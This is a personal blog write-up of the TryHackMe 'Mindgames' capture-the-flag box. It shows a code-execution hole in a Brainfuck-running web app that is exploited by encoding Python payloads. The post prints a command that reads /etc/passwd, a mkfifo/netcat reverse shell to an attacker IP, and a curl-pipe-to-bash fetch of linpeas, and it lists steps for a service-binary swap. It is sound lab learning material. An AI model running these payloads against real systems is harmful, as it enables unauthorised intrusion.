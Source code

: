 ```yaml
---
layout: post
title:  "THM - Mindgames"
date:   2020-07-03 18:00:00 +1000
category: hacking
---
```


## WARNING
This post contains rude words, and it's not my fault. Turn back now.

## Introduction
*No hints. Hack it. Don't give up if you get stuck, enumerate harder.*  

This machine is ranked hard, we'll see if I'm up to it...

## Ports
nmap says we've got 22 (FTP) and 80 (HTTP) only - so far so good, right?  
From the ttl (time-to-live) in nmap, we can guess it's a Linux box. nmap says it's running a Golang HTTP server, so that's a little different. Let's check it out.

## Webserver
*Sometimes, people have bad ideas.*
*Sometimes those bad ideas get turned into a CTF box.*
*I'm so sorry.*

*Ever thought that programming was a little too easy? Well, I have just the product for you. Look at the example code below, then give it a go yourself!*

*Like it? Purchase a license today for the low, low price of 0.009BTC/yr!*  

*Hello, World*

``
+[------->++<]>++.++.---------.+++++.++++++.+[--->+<]>+.------.++[->++<]>.-[->+++++<]>++.+++++++..+++.[->+++++<]>+.------------.---[->+++<]>.-[--->+<]>---.+++.------.--------.-[--->+<]>+.+++++++.>++++++++++.
``

Recognise this? It's something called Brainfuck. Yes, that's a thing. And on the website is a spot to submit your own code.

When we do trial some bf code, we can note that when we have an error, it looks like this:  

*Traceback (most recent call last):File "<string>", line 1, in <module>NameError: name*  

That's a python error, so we can guess that the bf code is being interpreted and run by python on the server. So perhaps we can make some valid python code, in brainfuck? 

## Python
We can install a brainfuck generator - also written in python - called [pybf](https://github.com/amrali/pybf) with pip, and then use it to generate code like this:

``
root@kali:/opt/tryhackme/mindgames# echo "import os;os.system('cat /etc/passwd')" | pybf -g -
``

Which gives this:
``
++++++++[>>++>++++>++++++>++++++++>++++++++++>++++++++++++>++++++++++++++>++++++++++++++++>++++++++++++++++++>++++++++++++++++++++>++++++++++++++++++++++>++++++++++++++++++++++++>++++++++++++++++++++++++++>++++++++++++++++++++++++++++>++++++++++++++++++++++++++++++<<<<<<<<<<<<<<<<-]>>>>>>>>-------.++++.+++.-.+++.++.<<<<<.>>>>>-----.++++.<<<-----.>>>----.++++.<<<<--.>>>>.++++++.------.+.<+++++.>-------.<<<<------.-.>>>--.--.>+++++++.<<<<<.>++++++++.>>>++++.>.<--.<<<.>>>>----.<--.>+++..++++.<+++.<<<<+++++++.++.<------.
``

And feeding that to the website gives this:
>root:x:0:0:root:/root:/bin/bash  
etc  
tryhackme:x:1000:1000:tryhackme:/home/tryhackme:/bin/bash  
mindgames:x:1001:1001:,,,:/home/mindgames:/bin/bash  

And in the same manner, we can get a reverse shell:

``
root@kali:/opt/tryhackme/mindgames# echo "import os;os.system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.10.123 1234 >/tmp/f')" | pybf -g -
``

I won't put the brainfuck output here, because hopefully you get the idea.

## Shell

And once we've got a shell, we can get the user flag:

>$ python3 -c 'import pty;pty.spawn("/bin/bash");'  
mindgames@mindgames:~/webserver$ cat /home/mindgames/user.txt  
cat /home/mindgames/user.txt  
thm{411f7d38247ff441ce4e134b459b6268}  

Then run linpeas:  

``
mindgames@mindgames:/dev/shm$ curl http://10.9.10.123:8000/linpeas.sh | /bin/bash
``

and ... more or less draw a blank.

## Failed Privesc

So this box used a custom webserver running under *server.service* and I thought maybe I could use that; either the binary might have some hardcoded credentials in it (spoiler: not that I could find), or perhaps I could try replacing the binary with something of my own?

We don't have the sudo password for the account - and I couldn't find it anywhere - so we can't use **systemctl restart** on the service (this requires sudo). However, we can do this:

1. Delete or rename the existing server binary
2. Make a new file to replace the binary - in my case I tried a bash script to start a reverse shell
3. kill -9 [PID] on the the service PID
4. wait for the service to restart and get our shell

Now I think this would help if the service was running as a more privileged user, but unfortunately it was only running as the same user we already had. And, it's pretty drastic since it kills the webserver, so you wouldn't do this unless you were desperate. It does get you a shell though, but it's no better than what we already had.

## Admit defeat

At this point, and after lots of enumeration, I admitted defeat and went and checked a write-up. Turns out the privesc requires a technique I hadn't seen before involving OpenSSL Engine and setting the SUID. Here's an explanation in another [writeup](https://hellrider9.github.io/writeup/mindgames/).

## Final thoughts

I'm relatively new at this; I don't know everything already, and that's okay. I cruised through the foothold pretty easily and got dead-ended on the privesc. That happens sometimes - the key is to learn something from the experience and keep practicing.
